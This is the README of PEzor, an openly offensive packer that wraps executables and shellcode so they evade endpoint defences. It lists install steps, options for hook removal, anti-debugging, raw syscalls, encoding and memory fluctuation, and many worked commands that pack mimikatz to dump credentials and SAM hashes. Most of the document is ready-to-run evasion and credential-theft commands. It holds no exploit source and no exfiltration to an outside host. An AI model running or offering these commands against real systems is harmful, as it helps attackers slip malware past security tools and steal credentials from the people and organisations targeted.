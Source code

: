 PEzor
=====

Read the blog posts here:

- [https://iwantmore.pizza/posts/PEzor.html](https://iwantmore.pizza/posts/PEzor.html)
- [https://iwantmore.pizza/posts/PEzor2.html](https://iwantmore.pizza/posts/PEzor2.html)
- [https://iwantmore.pizza/posts/PEzor3.html](https://iwantmore.pizza/posts/PEzor3.html)
- [https://iwantmore.pizza/posts/PEzor4.html](https://iwantmore.pizza/posts/PEzor4.html)

```raw
 ________________
< PEzor!! v3.1.0 >
 ----------------
      \                    / \  //\
       \    |\___/|      /   \//  \\
            /0  0  \__  /    //  | \ \
           /     /  \/_/    //   |  \  \
           @_^_@'/   \/_   //    |   \   \
           //_^_/     \/_ //     |    \    \
        ( //) |        \///      |     \     \
      ( / /) _|_ /   )  //       |      \     _\
    ( // /) '/,_ _ _/  ( ; -.    |    _ _\.-~        .-~~~^-.
  (( / / )) ,-{        _      `-.|.-~-.           .~         `.
 (( // / ))  '/\      /                 ~-. _ .-~      .-~^-.  \
 (( /// ))      `.   {            }                   /      \  \
  (( / ))     .----~-.\        \-'                 .~         \  `. \^-.
             ///.----..>        \             _ -~             `.  ^-`  ^-_
               ///-._ _ _ _ _ _ _}^ - - - - ~                     ~-- ,.-~
                                                                  /.-~
---------------------------------------------------------------------------
```

<!-- toc -->
* [Installation](#installation)
* [Usage](#usage)
<!-- tocstop -->

<!-- install -->
# Installation
The `install.sh` is designed to work on a Kali Linux distro.
```sh-session
$ git clone https://github.com/phra/PEzor.git
$ cd PEzor
$ sudo bash install.sh
$ bash PEzor.sh -h
```

# Upgrading from v2.x.x

The `PATH` variable has to be updated to use a specific commit of [Donut](https://github.com/TheWover/donut)! Check the updated `install.sh` script.

<!-- installstop -->

<!-- usage -->
# Usage
* [`PEzor -h`](#PEzor-help)
* [`PEzor <EXECUTABLE> [donut args...]`](#PEzor-executable)
* [`PEzor <SHELLCODE>`](#PEzor-shellcode)
<!-- usagestop -->

<!-- pezor-help -->
## `PEzor help`

display help for PEzor

```
USAGE
  $ PEzor help
```
<!-- pezor-helpstop -->

<!-- pezor-executable -->
## `PEzor <EXECUTABLE>`

Pack the provided executable into a new one

```
OPTIONS
  -h                        Show usage and exits
  -32                       Force 32-bit executable
  -64                       Force 64-bit executable
  -debug                    Generate a debug build
  -unhook                   User-land hooks removal
  -antidebug                Add anti-debug checks
  -syscalls                 Use raw syscalls [64-bit only] [Windows 10 only]
  -sgn                      Encode the generated shellcode with sgn
  -text                     Store shellcode in .text section instead of .data
  -rx                       Allocate RX memory for shellcode
  -self                     Execute the shellcode in the same thread
  -sdk=VERSION              Use specified .NET Framework version (2, 4, 4.5 (default))
  -cleanup                  Perform the cleanup of allocated payload and loaded modules (only for BOFs)
  -sleep=N                  Sleeps for N seconds before unpacking the shellcode
  -format=FORMAT            Outputs result in specified FORMAT (exe, dll, reflective-dll, service-exe, service-dll, dotnet, dotnet-createsection, dotnet-pinvoke)
  -fluctuate=PROTECTION     Fluctuate memory region to PROTECTION (RW or NA) by hooking Sleep()
  [donut args...]           After the executable to pack, you can pass additional Donut args, such as -z 2

EXAMPLES
  # 64-bit (self-inject RWX)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (self-inject RX)
  $ PEzor.sh -unhook -antidebug -text -self -rx -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (raw syscalls)
  $ PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 mimikatz/x64/mimikatz.exe -z 2
  # 64-bit (fluctuate to READWRITE when sleeping)
  $ PEzor.sh -fluctuate=RW -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p coffee sleep 5000 coffee exit
  # 64-bit (fluctuate to NOACCESS when sleeping)
  $ PEzor.sh -fluctuate=NA -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p coffee sleep 5000 coffee exit
  # 64-bit (beacon object file)
  $ PEzor.sh -format=bof mimikatz/x64/mimikatz.exe -z 2 -p log c:\users\public\mimi.out token::whoami exit
  # 64-bit (beacon object file w/ cleanup)
  $ PEzor.sh -format=bof -cleanup mimikatz/x64/mimikatz.exe -z 2 -p log c:\users\public\mimi.out token::whoami exit
  # 64-bit (reflective dll)
  $ PEzor.sh -format=reflective-dll mimikatz/x64/mimikatz.exe -z 2 -p log c:\users\public\mimi.out token::whoami exit
  # 64-bit (service exe)
  $ PEzor.sh -format=service-exe mimikatz/x64/mimikatz.exe -z 2 -p log c:\users\public\mimi.out token::whoami exit
  # 64-bit (service dll)
  $ PEzor.sh -format=service-dll mimikatz/x64/mimikatz.exe -z 2 -p log c:\users\public\mimi.out token::whoami exit
  # 64-bit (dotnet)
  $ PEzor.sh -format=dotnet -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p log c:\users\public\mimi.out token::whoami exit
  # 64-bit (dotnet-pinvoke)
  $ PEzor.sh -format=dotnet-pinvoke -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p log c:\users\public\mimi.out token::whoami exit
  # 64-bit (dotnet-createsection)
  $ PEzor.sh -format=dotnet-createsection -sleep=120 mimikatz/x64/mimikatz.exe -z 2 -p log c:\users\public\mimi.out token::whoami exit
  # 32-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 mimikatz/Win32/mimikatz.exe -z 2
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread)
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 mimikatz/Win32/mimikatz.exe -z 2
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread) and arguments for donut
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 mimikatz/Win32/mimikatz.exe -z 2 "-plsadump::sam /system:SystemBkup.hiv /sam:SamBkup.hiv"
```
<!-- pezor-executablestop -->

<!-- pezor-shellcode -->
## `PEzor <SHELLCODE>`

Pack the provided shellcode into an executable

```
USAGE
  $ PEzor <-32|-64> [options...] <SHELLCODE>

OPTIONS
  -h                        Show usage and exits
  -32                       Force 32-bit executable
  -64                       Force 64-bit executable
  -debug                    Generate a debug build
  -unhook                   User-land hooks removal
  -antidebug                Add anti-debug checks
  -shellcode                Force shellcode detection
  -syscalls                 Use raw syscalls [64-bit only] [Windows 10 only]
  -sgn                      Encode the provided shellcode with sgn
  -text                     Store shellcode in .text section instead of .data
  -rx                       Allocate RX memory for shellcode
  -self                     Execute the shellcode in the same thread [requires RX shellcode, not compatible with -sgn]
  -cleanup                  Perform the cleanup of allocated payload and loaded modules (only for BOFs)
  -sleep=N                  Sleeps for N seconds before unpacking the shellcode
  -format=FORMAT            Outputs result in specified FORMAT (exe, dll, reflective-dll, service-exe, service-dll, dotnet, dotnet-createsection, dotnet-pinvoke)
  -fluctuate=PROTECTION     Fluctuate memory region to PROTECTION (RW or NA) by hooking Sleep()

EXAMPLES
  # 64-bit (self-inject RWX)
  $ PEzor.sh shellcode.bin
  # 64-bit (self-inject RX)
  $ PEzor.sh -unhook -antidebug -text -self -rx -sleep=120 shellcode.bin
  # 64-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 shellcode.bin
  # 64-bit (raw syscalls)
  $ PEzor.sh -sgn -unhook -antidebug -text -syscalls -sleep=120 shellcode.bin
  # 64-bit (fluctuate to READWRITE when sleeping)
  $ PEzor.sh -fluctuate=RW shellcode.bin
  # 64-bit (fluctuate to NOACCESS when sleeping)
  $ PEzor.sh -fluctuate=NA shellcode.bin
  # 64-bit (beacon object file)
  $ PEzor.sh -format=bof shellcode.bin
  # 64-bit (beacon object file w/ cleanup)
  $ PEzor.sh -format=bof -cleanup shellcode.bin
  # 64-bit (reflective dll)
  $ PEzor.sh -format=reflective-dll shellcode.bin
  # 64-bit (service exe)
  $ PEzor.sh -format=service-exe shellcode.bin
  # 64-bit (service dll)
  $ PEzor.sh -format=service-dll shellcode.bin
  # 64-bit (dotnet)
  $ PEzor.sh -format=dotnet shellcode.bin
  # 64-bit (dotnet-pinvoke)
  $ PEzor.sh -format=dotnet-pinvoke shellcode.bin
  # 64-bit (dotnet-createsection)
  $ PEzor.sh -format=dotnet-createsection shellcode.bin
  # 32-bit (self-inject)
  $ PEzor.sh -unhook -antidebug -text -self -sleep=120 shellcode.bin
  # 32-bit (Win32 API: VirtualAlloc/WriteMemoryProcess/CreateRemoteThread)
  $ PEzor.sh -sgn -unhook -antidebug -text -sleep=120 shellcode.bin
```

_See code: [PEzor.sh](https://github.com/phra/PEzor/blob/master/PEzor.sh)_
<!-- pezor-shellcodestop -->

